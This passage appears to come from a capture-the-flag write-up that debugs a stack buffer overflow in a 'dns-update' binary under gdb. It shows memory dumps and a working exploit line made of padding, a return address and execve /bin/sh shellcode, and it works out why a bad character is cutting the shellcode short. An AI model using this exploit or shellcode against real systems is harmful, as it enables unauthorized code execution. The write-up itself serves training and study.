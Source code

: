 ```
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) x/10i $pc
=> 0xbffff3f5:	lock pushl 0x804c018(%edi)
   0xbffff3fc:	or     %al,%al
   0xbffff3fe:	add    $0x8,%al
   0xbffff400:	pusha
   0xbffff401:	mov    %es,(%eax,%ecx,1)
   0xbffff404:	add    %al,(%eax)
   0xbffff406:	add    %al,(%eax)
   0xbffff408:	add    %al,(%eax)
   0xbffff40a:	add    %al,(%eax)
   0xbffff40c:	arpl   %bx,0x4b7e2(%edx)
(gdb) x/10wx $esp
0xbffff3d4:	0x6e69622f	0x68732f2f	0x00000000	0xe1f7c931
0xbffff3e4:	0x2f2f6851	0x2f686873	0x896e6962	0xb700b0e3
0xbffff3f4:	0xb7fff000	0x0804c018
```
Hmmm, this time we received a SIGILL. Why could this be?. We insert a `\xcc` before the shellcode so we will break before the shellcode is executed. We examine the instructions to check if the shellcode looks correct, however it doesn't look like the reference on the website we borrowed it from. It is missing the `mov al, 0x11` and `int 0x80` instructions. This is likely due to a byte value being used in the shellcode that a parsing function considers to denote the end of our buffer, a bad character.

```
(gdb) r ecwi.cysca test 1.1.1.`python -c 'print "A"*38+"\xeb\x89\x04\x08"+"\xcc\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /root/dns-update ecwi.cysca test 1.1.1.`python -c 'print "A"*38+"\xeb\x89\x04\x08"+"\xcc\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"'`
ip address part 4 is invalid

Program received signal SIGTRAP, Trace/breakpoint trap.
0xbffff3e1 in ?? ()
(gdb) x/10i $pc
=> 0xbffff3e1:	xor    %ecx,%ecx
   0xbffff3e3:	mul    %ecx
   0xbffff3e5:	push   %ecx
   0xbffff3e6:	push   $0x68732f2f
   0xbffff3eb:	push   $0x6e69622f
   0xbffff3f0:	mov    %esp,%ebx
   0xbffff3f2:	mov    $0x0,%al << Should be mov $0xb,%al
   0xbffff3f4:	add    %dh,%al  << Should be int $0x80
   0xbffff3f6:	pushl  0x804c018(%edi)
   0xbffff3fc:	or     %al,%al

(gdb) x/30bx $esp
0xbffff3e0:	0xcc	0x31	0xc9	0xf7	0xe1	0x51	0x68	0x2f
0xbffff3e8:	0x2f	0x73	0x68	0x68	0x2f	0x62	0x69	0x6e
0xbffff3f0:	0x89	0xe3	0xb0	0x00	0x00	0xf0	0xff	0xb7
0xbffff3f8:	0x18	0xc0	0x04	0x08	0x08	0xc0
```
